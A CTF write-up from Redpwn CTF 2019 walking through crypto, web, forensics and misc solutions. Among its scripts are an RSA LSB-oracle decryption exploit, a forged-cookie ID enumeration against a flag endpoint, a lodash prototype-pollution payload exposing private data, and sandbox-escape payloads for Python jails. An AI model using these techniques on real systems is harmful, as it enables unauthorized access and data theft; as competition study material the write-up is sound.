Over the past few days, my team and I participated in Redpwn CTF 2019. We came out fourth and we enjoyed the experience.



As in almost any CTF, some challenges were good, and some consisted purely on guessing. I will present only the challenges that I helped solve, however, I must say that my teammates contributed a lot, as this CTF was a team effort.

## Table of Contents

  * [Dunce Crypto](#crypto-1)
  * [Super Hash](#crypto-2)
  * [Trinity](#crypto-3)
  * [010000100110100101101110011000010111001001111001](#crypto-4)
  * [Ghast](#web-1)
  * [Blueprint](#web-2)
  * [Dedication](#foren-1)
  * [genericpyjail](#misc-1)
  * [genericpyjail2](#misc-2)
  * [he sed she sed](#misc-3)
  * [expobash](#misc-4)

## Dunce Crypto – Cryptography {#crypto-1}



This was a simple Caesar Cipher. Just use <https://cryptii.com/pipes/caesar-cipher> and try all shifts until you find the flag:



Flag: flag{I\_d0nt\_w4nt\_t0\_p4y\_my\_tax3s}

## Super Hash – Cryptography {#crypto-2}



The words ‘really short’ hint us that we can bruteforce the hashed string. We can make a simple Python script that does exactly that:


#!/usr/bin/python3
import hashlib
import string
import itertools
import sys

hash = "CD04302CBBD2E0EB259F53FAC7C57EE2"

alphabet = string.printable

for length in range(1, 8): # the string is REALLY short
	print("Len: {}".format(length))
	for i in itertools.product(alphabet, repeat=length):
		s = ''.join(i)
		for cnt in range(10):
			h = hashlib.new('md5')
			h.update(s.encode())
			s = h.hexdigest().upper()
		if s == hash:
			print("Found string: {}".format(''.join(i)))
			sys.exit(0)



My script was a bit too complicated, as the hashed string consisted of only one character:



Flag: flag{^}

## Trinity – Cryptography {#crypto-3}



This was one of the most frustrating challenges. My team and I tried some very complicated stuff and failed to solve the challenge. 12 hours later, less than an hour after the hint was released, I finally figured it out. The ciphertext was actually Morse Code, 0 represented a dot (.), 1 represented a dash (-) and 2 a space. 


>>> "1202010210201201021011200200021121112010202012010210102012102021000200121200210002021210112111200121200002111200121102000021211120010200212001020020102000212".replace("0", ".").replace("1", "-").replace("2", " ")
'- . .-. -. .- .-. -.-- .. ... -- --- .-. . .- .-. -.-. .- -. . -... ..- - .. -... . - -.-- --- ..- - .... --- ..- --. .... - --- ..-. .. - ..-. .. .-. ... - '
>>>



After getting the flag in Morse code, we can just use an online converter like [this one](https://morsecode.scphillips.com/translator.html).



Flag: flag{TERNARYISMOREARCANEBUTIBETYOUTHOUGHTOFITFIRST}

## 010000100110100101101110011000010111001001111001 – Cryptography {#crypto-4}



The binary text does not fit in the challenge box, so let me turn it into text for you:



Let’s connect to the service and see the output:



That’s a lot of 1s and 0s! Let’s convert some of the lines to ASCII:

  * The first line translates to “ultimate encryption service”
  * The second line decodes to “WARNING: I only say 0 or 1”
  * The third line starts with “(N, e): ” and is followed by a RSA public key pair that changes every time we connect to the service (actually, only N changes. e is always 65537)
  * The fourth line starts with “ENCRYPTED MESSAGE: ” and is followed by a number, probably the encrypted flag.

We can also submit some numbers in binary and the program will return either a 0 or a 1. After the admins fixed the challenge (at first it didn’t always give the correct output), we immediately figured out it was an RSA LSB oracle. You can read more about it [here](https://ctf.rip/sharif-ctf-2016-lsb-oracle-crypto-challenge/).

The script to check if the service is an LSB oracle:


from pwn import *
import decimal
import math

context.log_level = "critical"

r = remote('chall2.2019.redpwn.net', 5001)

r.recvuntil(b": (")
n = int(r.recvuntil(b", ")[:-2].decode(), 2)
e = int(r.recvuntil(b"\n")[:-2].decode(), 2)

r.recvuntil(b"01101010011010000010100011101000101: ")
m = int(r.recvuntil(b"\n").decode(), 2)
r.recvuntil(b">")

def send(txt):
	global r
	r.sendline(bin(txt)[2:].encode())
	ret = r.recvuntil(b">")[:-1]
	while ret == b"\n":
		ret = r.recv()
	return int(ret)

test = True

#print(send(0) == 0)
#print(send(1) == 1)
#print(send(n))

for i in range(1000):
	if send(pow(i, e, n)) == i % 2:
		print("Test passed! {}/1000".format(i + 1))
	else:
		print("Test failed :(")
		break



Script that gives the flag:


from pwn import *
import decimal
import math
import libnum

context.log_level = "critical"

r = remote('chall2.2019.redpwn.net', 5001)

r.recvuntil(b": (")
n = int(r.recvuntil(b", ")[:-2].decode(), 2)
e = int(r.recvuntil(b"\n")[:-2].decode(), 2)

r.recvuntil(b"01101010011010000010100011101000101: ")
m = int(r.recvuntil(b"\n").decode(), 2)

r.recvuntil(b">")

def send(txt):
	global r
	r.sendline(bin(txt)[2:].encode())
	ret = r.recvuntil(b">")[:-1]
	return int(ret.decode())

test = True

#print(send(0) == 0)
#print(send(1) == 1)
print(send(n))

def oracle(txt):
	return send(txt)

c_of_2 = pow(2, e, n)
c = m

def partial(c,n):
    k = n.bit_length()
    decimal.getcontext().prec = k    # allows for 'precise enough' floats
    lower = decimal.Decimal(0)
    upper = decimal.Decimal(n)
    for i in range(k):
        print("{}/{}".format(i, k))
        possible_plaintext = (lower + upper)/2
        if not oracle(c):
            upper = possible_plaintext            # plaintext is in the lower half
        else:
            lower = possible_plaintext            # plaintext is in the upper half
        c=(c*c_of_2) % n     # multiply y by the encryption of 2 again
    # By now, our plaintext is revealed!
    return int(upper)

print(repr(libnum.n2s(partial((c*c_of_2)%n,n))))



In order to get the flag, the script needs to get the output of about 1024 numbers, so it might take a while until it finishes, depending on the server’s speed.



Flag: flag{y0u\_s0lved\_th3\_l3ast\_s1gn1f1c1nt_RSA!-1123}

## Ghast – Web {#web-1}



I honestly don’t know if this is the intended solution, but it worked for me. The key is to see that the makeId() function doesn’t make a random id:



This means that we can call /api/flag with incrementing user ids until we get the flag:


import requests
import base64

url = "http://chall.2019.redpwn.net:8008/api/flag"

def tryUserId(id):
	global url
	c = base64.b64encode("ghast:{}".format(id).encode()).decode()
	r = requests.get(url, cookies = {"user": c})
	if "your name: " in r.text:
		return False
	if "only the admin can wield the flag" in r.text:
		return False
	return r.text

for id in range(100, 40000):
	print(id)
	if tryUserId(id) != False:
		#print(id)
		print(tryUserId(id))
		break



I do think there’s a more clever way to do this challenge, but given that it has 100+ solves I assume that most players used this method.

Flag: flag{th3\_AdM1n\_ne3dS\_A\_n3W_nAme}

## Blueprint – Web {#web-2}



The following piece of code is vulnerable:



Note that _ is actually the lodash module. The thing is that this module is outdated :





The server is using a version of lodash that is vulnerable to prototype pollution. This means that we can manipulate the properties of all the user’s blueprints. Read more about it [here](https://snyk.io/vuln/SNYK-JS-LODASH-450202).

The following script will make all of your blueprints public (including the one that contains the flag):


import requests

user_id = "842a0d122445ccd22931d1d84eba5295"
url = "http://chall2.2019.redpwn.net:8002/make"

r = requests.post(url, cookies={"user_id": user_id}, json={"content":"yakuhito was here",
"public":True, "constructor": {"prototype": {"public": True}}})

print(r.text)



After you run the script, just access the site and get the flag:



Flag: flag{8lu3pr1nTs\_aRe\_tHe\_hiGh3s1\_quA11tY_pr0t()s}

## Dedication – Forensics {#foren-1}



The zip file contains 2 files: a .png that contains pixel values for an image with a word and a password-protected zip file that contains the next 2 files. The password for the zip file is the word in the picture. I used an OCR, but sometimes it would fail, so I had to write about 100 words to get the flag. (you needed to unzip 1000 files)

This final script:


from PIL import Image, ImageDraw
import numpy as np
import scipy.misc as smp
import pytesseract
import os
from zipfile import ZipFile

def get_ocr(img):
    text = pytesseract.image_to_string(img, lang='eng')
    return text.lower().replace("cc", "c")

def getImg(fn):
	d = open(fn, "r").read().split("\n")[:-1]
	image_width = len(d[0].split(","))
	image_height = len(d)
	data = np.zeros((image_width, image_height, 3), dtype=np.uint8)
	for i in range(len(d)):
		p = d[i].split(") (")
		for j in range(len(p)):
			vals = p[j].split(",")
			v = [int(x.replace("(", "").replace(")", "")) for x in vals]
			data[j, i] = v
	img = smp.toimage( data )
	ret = get_ocr(img)
	return ret

def getImg2(fn):
        d = open(fn, "r").read().split("\n")[:-1]
        image_width = len(d[0].split(","))
        image_height = len(d)
        data = np.zeros((image_width, image_height, 3), dtype=np.uint8)
        for i in range(len(d)):
                p = d[i].split(") (")
                for j in range(len(p)):
                        vals = p[j].split(",")
                        v = [int(x.replace("(", "").replace(")", "")) for x in vals]
                        data[j, i] = v
        img = smp.toimage( data )
        img.show()
        ret = input("What do you see?")
        return ret

def getImgName(pth):
	for name in os.listdir(pth):
		if name.endswith(".png"):
			return name

def getZipName(pth):
	for name in os.listdir(pth):
		if name.endswith(".zip"):
			return name

seen_dirs = []

def getPath(n = "a"):
	global seen_dirs
	for name in os.listdir('.'):
		if os.path.isdir(name) and name != n and name not in seen_dirs:
			return name
	return "WRONG_PASS"

from subprocess import Popen, PIPE

while True:
	path = getPath()
	print(path)
	img = path + "/" + getImgName(path)
	zip = path + "/" + getZipName(path)
	print(img, zip)
	psw = getImg(img)
	print(psw)
	cmd = "7z x {} -p'{}'".format(zip, psw.replace(" ", "").replace(",", ""))
	proc = Popen(cmd, shell=True, bufsize=1, stdout=PIPE, stderr=PIPE)
	while b"ERROR" in proc.stderr.readline():
		psw = getImg2(img)
		cmd = "7z x {} -p'{}' -aoa".format(zip, psw.replace(" ", "").replace(",", ""))
		proc = Popen(cmd, shell=True, bufsize=1, stdout=PIPE, stderr=PIPE)
	
	seen_dirs.append(path)
	if getPath(path) != "WRONG_PASS":
		a = getPath(path)
		b = a + "/" + getImgName(a)
	else:
		break
	print(seen_dirs)



The script is a bit messy, but it works.

Flag: flag{th3s\_1s\_tru3_d3d1cAt10N!!!}

## genreicpyjail – Misc {#misc-1}



One of my teammates got the flag 1 minute before I solved the challenge. His payload is pretty simple to understand:


'\u0066\u003d\u006f\u0070\u0065\u006e\u0028\u0022\u0066\u006c\u0061\u0067\u002e\u0074\u0078\u0074\u0022\u002c\u0020\u0022\u0072\u0022\u0029'.decode('unicode-escape')
'\u0070\u0072\u0069\u006e\u0074\u0028\u0066\u002e\u0072\u0065\u0061\u0064\u0028\u0029\u0029'.decode('unicode-escape')



My payload also works:


exit(getattr(locals().get(chr(95)*2+'built'+'ins'+chr(95)*2), 'op'+'en')('fl'+'ag.txt').read())



Flag: flag{bl4ckl1sts\_w0rk\_gre3344T!}

## genericpyjail2 – Misc {#misc-2}



This time, I told my team I was working on this challenge. The final payload:


raw_input((42).__class__.__base__.__subclasses__()[40]('flag.txt').read())



Flag: flag{sub\_sub\_sub_references}

## He sed she sed – Misc {#misc-3}



This was a simple command injection challenge. 



Flag: flag{th4ts\_wh4t\_sh3_sed}

## expobash – Misc {#misc-4}





Fishy is trying to hack into secret government website! The 10 digit passcode is very secure, but in order to generate the passcode, a secret algorithm was used. Fishy was able to figure out the algorithm, but he doesn’t know how to calculate the passcode quickly? Can you help fishy calculate all the passcodes?

The algorithm for the password is as follow: There are 2 arrays given to you of length n: a and b. For each subsequence of a that can be created by deleting some (maybe all) of the elements a, we calculate the value of the subsequence by taking the XOR of the ith element of subarray with b[i]. Your goal is the find the last 10 digits of the sum of the values of all possible subsequences of a.

At first, this seemed like an easy coding challenge. However, the dataset had n=50, so generating all subsequences and calculating the required sum won’t work. It was clear that I needed to discover a rule between the ith element of a XOR the jth element of b and its coefficient in the sum. To do this, I first named the elements in a 101, 102, … and the elements in b 201, 202, … . After that, I made a simple script that would show the coefficients of a[i] ^ b[j]:


import itertools
import sys

n = int(sys.argv[1])
a = [101 + i for i in range(n)]
b = [201 + j for j in range(n)]

dict = {}

for e in a:
	dict[e] = []

for ind in itertools.product([True, False], repeat=n):
	arr = []
	for i in range(len(a)):
		if ind[i]:
			arr.append(a[i])
	for i in range(len(arr)):
		dict[arr[i]].append(b[i])

for i in a:
	dict[i].sort()
	print(i, end=": ")
	for j in b:
		s = str(dict[i].count(j))
		s = (3 - len(s)) * ' ' + s
		print("{} = {} | ".format(j, s), end = "")
	print()



We pass n as an argument when we run the script:



It didn’t take me very long to find the rule. The first line always consists of 2 ^ (n – 1) and then n-1 0s. To generate line number x, we use the formula a\[x\]\[i\] = a\[x – 1\]\[i – 1\] / 2 + a\[x – 1\]\[i\] / 2. I don’t know if this is a well-known formula; I discovered it during the CTF by myself. 

The script that solves the challenge:


from pwn import *
import itertools
import hashlib

context.log_level = "critical"

r = remote('chall2.2019.redpwn.net', 6005)

def nextcoeff(arr):
	a = [0 for i in range(len(arr))]
	for i in range(len(arr) - 1):
		a[i] += arr[i] // 2
		a[i + 1] += arr[i] // 2
	return a

def problem(n, a1, b1):
	global r
	a1 = a1.split(" ")
	b1 = b1.split(" ")
	a = []
	for i in a1:
		try:
			a.append(int(i))
		except:
			pass
	b = []
	for j in b1:
		try:
			b.append(int(j))
		except:
			pass
	sum = 0
	coeff = [2 ** (n - 1)]
	for i in range(n - 1):
		coeff.append(0)
	for elem in a:
		for j in range(len(b)):
			sum = (sum + coeff[j] * (b[j] ^ elem)) % (10 ** 10)
		coeff = nextcoeff(coeff)
	sum = str(sum % (10 ** 10))
	sum = "0" * (10 - len(sum)) + sum
	print(sum)
	return sum

while True:
	n = r.recvline().decode()
	print(n)
	n = int(n)
	a1 = r.recvline().decode()
	b1 = r.recvline().decode()
	ans = problem(n, a1, b1)
	r.sendline(ans.encode())

r.interactive()





Flag: flag{c4n\_1\_h4v3\_4\_c0mb_pl0x}

## Conclusion

